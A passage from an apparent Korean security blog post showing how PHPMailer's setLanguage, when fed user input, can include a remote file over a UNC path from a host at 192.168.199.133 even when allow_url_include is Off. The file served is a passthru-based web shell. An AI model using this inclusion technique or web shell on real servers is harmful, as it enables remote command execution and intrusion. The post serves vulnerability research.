 일반적으로 `php.ini` 설정에서 `allow_url_include` 옵션이 Off로 설정되어 있을 경우 http / https scheme을 사용한 원격 리소스의 include는 사용할 수 없습니다.

```php
<?php
    include "\\\\192.168.199.133\\Test\\test.php";
?>
```

![/assets/2021-08-01/Untitled%2017.png](/assets/2021-08-01/Untitled%2017.png)

하지만 위와 같이 UNC Path를 이용하여 include할 경우 `allow_url_include` 옵션이 Off일 경우에도 정상적으로 include 되는 것을 확인할 수 있습니다.

```php
<?php
		// index.php
    require_once "vendor/autoload.php";

    use PHPMailer\PHPMailer\PHPMailer;

    $mail = new PHPMailer(true);
    $mail->setLanguage($_GET["langcode"], $_GET["lang_path"]);
?>
```

서버의 index.php 소스코드입니다.

개발자의 실수로 `setLanguage` 함수를 사용할 때 `langcode` 와 `lang_path` 파라미터를 사용자 입력으로 받는다고 가정하였습니다.

```php
<?php
	// phpmailer.lang-ko.php
	header("Content-Type: text/html; charset=euc-kr");
	echo passthru($_GET["x"]);
?>
```

클라이언트로 돌아와, 이전에 생성했던 Test 공유 폴더의 `test.php` 파일의 파일명을 PHPMailer의 language 파일 포맷에 맞춰 `phpmailer.lang-ko.php` 로 수정합니다.

또한, 파일의 내용에 웹쉘 기능을 하는 구문을 추가해줍니다.

![/assets/2021-08-01/Untitled%2018.png](/assets/2021-08-01/Untitled%2018.png)
